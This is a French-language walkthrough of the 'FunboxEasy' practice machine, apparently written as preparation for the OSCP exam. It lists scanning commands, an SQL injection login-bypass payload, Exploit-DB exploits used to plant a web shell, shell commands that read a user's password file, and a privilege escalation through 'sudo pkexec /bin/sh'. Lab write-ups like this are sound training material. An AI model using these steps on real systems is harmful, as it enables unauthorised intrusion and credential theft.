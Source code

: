 # FunboxEasy

    sudo nmap -A -p1-10000 192.168.249.111
    sudo masscan -p1-65535,U:1-65535 --rate=1000 192.168.249.111 -e tun0
    sudo /home/timothe/.local/bin/autorecon 192.168.249.111
    feroxbuster -u http://192.168.249.111

Scans classiques. 

J'ai repéré et inspecté quelques URL intéressantes : 

    http://192.168.249.111/admin
    http://192.168.249.111/gym/ 
    http://192.168.249.111/gym/ex/admin/
    http://192.168.249.111/gym/admin/
    http://192.168.249.111/secret
    http://192.168.249.111/store/database
    ...

On peut facilement contourner le formulaire de login qui se situe sur la page http://192.168.249.111/admin grâce à ce petit exploit : https://www.exploit-db.com/exploits/47874

On peut aussi, grâce au même payload ( '=''or' ), modifier le mot de passe de l'administrateur sur la page http://192.168.249.111/admin/change-password.php 

Sur la page http://192.168.249.111/store/admin_add.php on voit qu'une erreur SQL sort quand on tente d'ajouter un livre. Pour me rapprocher des conditions d'examen, j'ai choisi de creuser les exploits existants au lieu de bêtement passer par SQLMap, puisque ce dernier est interdit pour l'OSCP.

Et j'ai directement trouvé un exploit vérifié qui menait à une RCE : https://www.exploit-db.com/exploits/47887

    vim exploit_OnlineBookStore.py
    python2.7  exploit_OnlineBookStore.py http://192.168.249.111/store 

Bien entourer les commandes de guillemets sous peine d'avoir des exceptions et de faire crasher le shell.

Ou directement visiter les URL sur un navigateur une fois le web-shell injecté.
Exemple : http://192.168.249.111/store/bootstrap/img/nG2CKRPfqR.php?cmd=id

    RCE $ 'ls /home/tony '
    RCE $ 'cat /home/tony/password.txt'

On voit le mot de passe pour le SSH, le mot de passe pour http://192.168.249.111/gym/admin et le mot de passe pour http://192.168.249.111/store 

À noter que le mot de passe pour /store correspondait bien au mot de passe que j'avais trouvé dans le fichier http://192.168.249.111/store/database/www_project.sql en récupérant le hash puis en le crackant avec Hashcat. Il y avait sûrement énormément de manières différentes de terminer cette VM.

L'élévation de privilèges est triviale :

    ssh  -l tony 192.168.249.111
    sudo -l
    sudo pkexec /bin/sh
    find / -name "local.txt" 2>/dev/null
    cat /var/www/local.txt
    ls /root
    cat /root/proof.txt

    
